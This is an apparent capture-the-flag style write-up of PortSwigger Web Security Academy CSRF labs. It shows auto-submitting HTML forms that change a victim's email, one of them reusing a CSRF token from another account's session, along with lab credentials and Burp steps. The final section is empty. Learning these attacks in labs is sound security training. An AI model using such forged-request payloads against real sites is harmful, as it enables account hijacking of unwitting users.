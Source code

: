 # Cross-site request forgery (CSRF)

Check detail at [here](https://portswigger.net/web-security/csrf)

Type of attack in this example
 - [A relevant action](#a-relevant-action)
 - [Cookie-based session handling](#cookie-based-session-handling)
 - [No unpredictable request parameters](#no-unpredictable-request-parameters)


## A relevant action

[Lab 1](https://portswigger.net/web-security/csrf/lab-no-defenses): no defenses

Description of this lab: craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server, we can log in with credentials: `wiener:peter` and this lab's email change functionality is vulnerable to CSRF

We found that when we log in successfully, this has email change field that we can exploit. Moreover, there is an exploit server in this lab, use this HTML in body field

```html
    <form action="https://0a4d00870370bbf4c1d27dfb00060001.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;example&#46;com">
    </form>
    <script>
      document.forms[0].submit();
    </script>
```

Clicking store button, then verifying that the exploit works, clicking "View exploit" and check the resulting HTTP request and response. Clicking "Deliver to victim" to solve the lab.

## Cookie-based session handling

[Lab 4](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session): token not tied to user session

Description of this lab: use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address, and two accounts on the application that you can use to help design your attack `wiener:peter; carlos:montoya`

Note: This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

We will need 2 browsers for this lab:
 - Browser 1: log in with `carlos:montoya` and change email, website will generate valid token in payload, like this `email=demo%40demo.demo&csrf=WTvWupXdfWayFeCnkI61Wjz40gY3GaVf`. However, every token can use only one time, so if you want to use token, reload page again. Check the code, and we can see that:

 ```html
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input required="" type="hidden" name="csrf" value="WTvWupXdfWayFeCnkI61Wjz40gY3GaVf">
        <button class="button" type="submit"> Update email </button>
    </form>
 ```

 - Browser 2: log in with `wiener:peter`, send the update email request into Burp Intercept and replace its token by token of browser 1, you can see this modified request changing wiener's email.
 Go back to browser 1, and reload page, copy its token in code, then using this in exploit server with below script.

 ```html
    <form action="https://0a2b005504f730f7c2a8028100f2007c.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;example&#46;com">
        <input type="hidden" name="csrf" value="ORVMYq9vt8rwzDakiea2fjBT3kqPT4iy">
    </form>
    <script>
      document.forms[0].submit();
    </script>
 ```

## No unpredictable request parameters


